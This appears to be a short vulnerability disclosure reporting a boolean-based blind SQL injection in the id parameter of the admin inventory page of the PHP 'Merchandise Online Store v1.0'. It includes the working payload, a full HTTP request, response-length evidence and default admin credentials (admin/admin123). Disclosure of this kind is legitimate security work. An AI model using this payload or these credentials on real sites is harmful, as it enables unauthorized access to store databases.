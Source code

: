 # Merchandise Online Store v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/admin/?page=inventory/manage_inventory&id=

Vulnerability location: /vloggers_merch/admin/?page=inventory/manage_inventory&id=,id

[+] Payload: /vloggers_merch/admin/?page=inventory/manage_inventory&id=5%27%20and%20length(database())%20=17--+ // Leak place ---> id

Current database name: vloggers_merch_db,length is 17

```sql
GET /vloggers_merch/admin/?page=inventory/manage_inventory&id=5%27%20and%20length(database())%20=17--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close
```

When length (database ()) = 16, Content-Length: 26978

![image](https://user-images.githubusercontent.com/54017627/166880997-26d91117-8932-4bfe-bd53-f5f853f32e2d.png)

![image](https://user-images.githubusercontent.com/54017627/166881083-a6c28dc7-9d19-44aa-a8aa-cdaea1fb6e07.png)

When length (database ()) = 17, Content-Length: 26988

![image](https://user-images.githubusercontent.com/54017627/166880946-3e8606bb-49a7-44c7-a778-379f70e8dc65.png)

![image](https://user-images.githubusercontent.com/54017627/166881043-8ba0d059-08b2-4bda-87b9-579c01d17cdc.png)
